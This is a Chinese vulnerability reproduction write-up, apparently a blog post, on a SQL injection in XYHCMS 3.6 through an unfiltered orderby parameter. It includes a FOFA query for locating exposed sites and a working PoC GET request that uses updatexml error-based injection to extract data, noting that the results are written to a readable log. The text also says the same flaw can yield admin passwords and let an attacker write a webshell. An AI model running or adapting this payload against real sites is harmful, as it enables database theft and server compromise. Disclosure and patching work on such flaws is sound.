

# 行云海CMS SQL注入漏洞复现

### 0x01 产品简介

 行云海cms是完全开源的一套CMS[内容管理系统](https://so.csdn.net/so/search?q=%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020),简洁,易用,安全,稳定,免费。

### 0x02 漏洞概述

 行云海cms中ThinkPHP在处理order by排序时可利用key构造[SQL语句](https://so.csdn.net/so/search?q=SQL%E8%AF%AD%E5%8F%A5&spm=1001.2101.3001.7020)进行注入，LtController.class.php中发现传入了orderby未进行过滤导致sql注入。攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

 xyhcms 3.6版本

### 0x04 复现环境

FOFA：app="XYHCMS"



### 0x05 漏洞复现

PoC

```cobol
GET /index.php/Api/Lt/alist?orderby[updatexml(1,concat(0x3a,(select%20version()),0x3a),1);]=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

PS：PoC中报错[注入](https://so.csdn.net/so/search?q=%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)的结果不会直接回显，但会写到日志里面，访问日志即可查看
